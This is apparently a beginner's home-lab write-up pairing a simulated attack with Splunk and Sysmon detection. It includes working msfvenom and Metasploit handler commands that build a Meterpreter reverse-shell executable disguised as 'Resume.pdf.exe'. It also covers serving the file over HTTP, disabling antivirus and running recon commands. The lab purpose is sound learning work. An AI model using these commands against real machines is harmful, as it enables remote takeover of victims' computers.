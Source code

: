 ![[Pasted image 20250427000420.png]]
Before we start using NMAP on the windows device, make sure that you enable this setting on your target device.
Not shown: 1000 filtered tcp ports (no-response)
The above message will appear if you do not enable it.

## ATTACKER 
#### MSFVenom
We'll be using this tool to create the malware.

#### Using a meterpreter reverse shell as a payload by getting the list of payloads
```
msfvenom -l payloads
```

#### Create the Payload
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe
```

This command will generate a malware using the payload and will connect back to the machine base on the lhost and lport with the file format being .exe.

#### Opening up a handler to listen in the port that we configured on our malware

```
msfconsole
use exploit/multi/handler --now in the exploit itself
options --see what we can configure
set payload windows/x64/meterpreter/reverse_tcp --change the payload to the same one we use
set lhost 192.168.20.11 --change lhost to our attacker machine(kali)
options 
exploit --start the handler 
```

Now, we are listening in and waiting for the target machine to execute the malware that has been created.

#### Set up a HTTP server 
This is so that the target machine can download the malware that we created. You can create it either using python or startup an apache service.

```
python3 -m http.server 9999
```

## TARGET
Before we start, make sure to turn off real time protection.

#### Download the Malware
Enter the ip address of the attacker machine along with the port used for the http server and download it from there.

#### Execute and verify the malware connection
Press the file that has been download and go into terminal and type in the command `netstat -anob.

## Splunk Time!
After the attacker has gained the access to the target device now you can head into their shell and execute commands.
#### Enter some commands in kali
```
shell
net user
net localgroup
ipconfig
```

#### Setting up Splunk

Before you start, you need internet access to download a Sysmon app from the Splunk apps which would require you to change your network adapter to NAT. After the download, you can switch back to Internal Network and continue with the query.

![[Pasted image 20250427000456.png]]
This is what we'd like to see. You'd need knowledge regarding event ids, guids and more to get a better understanding at what you're trying to query.

From the output above, we see that whatever command that was executed by the attacker was recorded.

##### TROUBLESHOOTING

There was a problem I encountered during in Splunk and it was that when I searched "index = endpoint", nothing came up. I recorded the solution down below for anyone's reference.

1. Check if you have the inputs.conf file in the Splunk directory.
2. Sometimes the inputs.conf file might be empty so make sure before doing the search in Splunk, check and see if the contents are in there.
3. After pasting the inputs.conf file in the directory, restart your Splunk service and in my case, my device has a problem with restarting that particular service so I just stop and start the service instead of clicking restart.
4. Don't forget to create an index in the Settings in Splunk.

## Conclusion

All in all, creating a Home Lab was a very good experience is something Cybersecurity aspiring people should have if they want to persue . I realized that you do need some Networking knowledge beforehand but even as a beginner, this project helps create a strong foundation in both your networking and cybersecurity skills. This project looked simple at first but it had it difficulties in some places thus requires your troubleshooting skills. Overall, it was a fun mini project for me and a valuable experience. 